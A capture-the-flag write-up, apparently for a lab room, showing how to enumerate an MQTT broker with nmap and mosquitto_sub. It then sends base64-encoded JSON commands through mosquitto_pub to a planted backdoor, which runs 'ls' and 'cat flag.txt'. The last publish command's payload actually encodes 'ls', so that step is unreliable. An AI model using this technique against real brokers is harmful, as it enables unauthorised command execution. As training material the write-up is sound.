 IP address 10.10.59.207

#nmap #mosquitto #base64


# Nmap
```bash
nmap -sC -sV 10.10.59.207 -T5
```
![Pasted image 20240610203505](https://github.com/BGhoster/Write-Ups/assets/43526966/ca00651b-e738-4135-862a-666c2e472450)

All standard ports are filtered with the Nmap scan. Switching to scanning all ports to see which ones are open.
```bash
nmap -p- 10.10.59.207
```
After the scan we see that the only port open is1883. 
### open ports
- 1883 (mqtt)

![Pasted image 20240610204254](https://github.com/BGhoster/Write-Ups/assets/43526966/e99838e9-9f23-4bf9-ae6d-7cbe9a895adc)


# What is mosquitto

> [!NOTE]
> The MQTT protocol provides a lightweight method of carrying out messaging using a publish/subscribe model. This makes it suitable for Internet of Things messaging such as with low power sensors or mobile devices such as phones, embedded computers or microcontrollers.
> https://www.eginnovations.com/documentation/Mosquitto-MQTT/What-is-Mosquitto-MQTT.htm
![Pasted image 20240610213041](https://github.com/BGhoster/Write-Ups/assets/43526966/5096de07-30e5-4182-9d96-0470ca088db7)

## Commands we will need

| Commands      | Descriptions                                               |
| ------------- | ---------------------------------------------------------- |
| mosquitto_sub | command line utility for subscribing to topics on a broker |
| mosquitto_pub | command line utility for publishing messages to a broker   |

## Installing the software

```bash
sudo apt-get install mosquitto mosquitto-clients
```

## Subscribing to all groups
```bash
mosquitto_sub -t "#" -h 10.10.59.207
```

## Decoding initial message
After some time we see a long base64 string that does not match everything else being logged. Decoding the base64 shows us the what is publishing the suspicious things.
![[Pasted image 20240610205607.png]]

## Publishing a message
```bash
mosquitto_pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -h 10.10.59.207 -m "test"
```

Publishing a message with test returns a base64 encoded string. Decoding the string states that test is an invalid command. Lets fix the issue and try again

```python
SW52YWxpZCBtZXNzYWdlIGZvcm1hdC4KRm9ybWF0OiBiYXNlNjQoeyJpZCI6ICI8YmFja2Rvb3IgaWQ+IiwgImNtZCI6ICI8Y29tbWFuZD4iLCAiYXJnIjogIjxhcmd1bWVudD4ifSk=
```
![Pasted image 20240610211410](https://github.com/BGhoster/Write-Ups/assets/43526966/fe7caf38-5323-4335-bc45-e03c112c5538)

## Formatting the command
After fixing the issue we need to encode this command in base64.
```python
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"}
```
```python
eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQ==
```
![Pasted image 20240610211931](https://github.com/BGhoster/Write-Ups/assets/43526966/66ab2cca-635f-4f0a-ba72-ba33063f243a)

## Catting the flag
Now that we see what the flag filename is called let's cat the flag. We will follow the same format. Change the command to cat flag.txt, base64 encode the message, and than publish it.
```bash
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "cat flag.txt"}
```
```python
eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAiY2F0IGZsYWcudHh0In0=
```
```bash
mosquitto_pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -h 10.10.59.207 -m "eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQo="
```

![Pasted image 20240610212131](https://github.com/BGhoster/Write-Ups/assets/43526966/274e3ee7-25ec-46c0-a1b4-df43ad76b920)

# Resources
https://book.hacktricks.xyz/network-services-pentesting/1883-pentesting-mqtt-mosquitto
https://www.eginnovations.com/documentation/Mosquitto-MQTT/What-is-Mosquitto-MQTT.htm

